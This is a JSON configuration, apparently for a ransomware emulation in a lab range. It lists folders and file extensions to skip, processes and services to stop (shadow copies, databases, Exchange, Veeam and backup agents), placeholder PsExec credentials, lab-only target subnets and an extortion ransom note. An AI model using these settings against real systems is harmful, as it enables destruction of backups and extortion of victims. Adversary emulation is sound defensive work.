 ```json
        "$windows.~bt",
        "$windows.~ws",
        "windows",
        "boot",
        "program files",
        "program files (x86)",
        "programdata",
        "system volume information",
        "tor browser",
        "windows.old",
        "intel",
        "msocache",
        "perflogs",
        "x64dbg",
        "public",
        "all users",
        "default",
        "microsoft",
        "ghosts",
        "ghosts_client"
    ],
    "excluded_ext": [
        "386", "adv", "ani", "bat", "bin", "cab", "cmd", "com", "cpl", "cur",
        "deskthemepack", "diagcab", "diagcfg", "diagpkg", "dll", "drv", "exe",
        "hlp", "icl", "icns", "ico", "ics", "idx", "ldf", "lnk", "mod", "mpa",
        "msc", "msp", "msstyles", "msu", "nls", "nomedia", "ocx", "prf", "ps1",
        "rom", "rtp", "scr", "shs", "spl", "sys", "theme", "themepack", "wpx",
        "lock", "key", "hta", "msi", "pdb", "search-ms", "sk12uyqzk"
    ],
    "target_processes": [
        "sql", "oracle", "ocssd", "dbsnmp",
        "synctime", "agntsvc", "isqlplussvc",
        "xfssvccon", "mydesktopservice", "ocautoupds",
        "encsvc", "firefox", "tbirdconfig",
        "mydesktopqos", "ocomm", "dbeng50",
        "sqbcoreservice", "scalc", "infopath",
        "sbase", "onenote", "outlook",
        "simpres", "steam", "thebat", "thunderbird",
        "sdraw", "swriter","wordpad", "notepad",
        "calc", "wuauclt", "onedrive", "soffice"
    ],
    "target_services": [
        "vss", "sql", "svc$",
        "memtas", "mepocs", "msexchange",
        "veeam", "backup",
        "GxVss", "GxBlr", "GxFWD",
        "GxCVD", "GxCIMgr"
    ],
    "psexec_user": "dummyusername",
    "psexec_pass": "dummypassword",
    "extension": "sk12uyqzk",
    "strict_include_ranges": ["10.0.2.0/28", "10.0.3.0/28"],
    "strict_include_hosts": ["10.0.2.4", "10.0.3.2"],
    "note_contents": "~~~ BlockBlit 3.0 the world's fastest and most stable ransomware from 2019 ~~~\n>>>>> Your data has been stolen and encrypted.\nIf you don't pay the ransom, your data will be published on our TOR darknet sites. Keep in mind that once your data appears on our leak site, it could be bought by your competitors at any second, so don't hesitate for a long time. The sooner you pay the ransom, the sooner your company will be safe.",
    "rsa_pub": "base64-encoded RSA public key",
    "rsa_priv": "base64-encoded RSA private key"
}
```
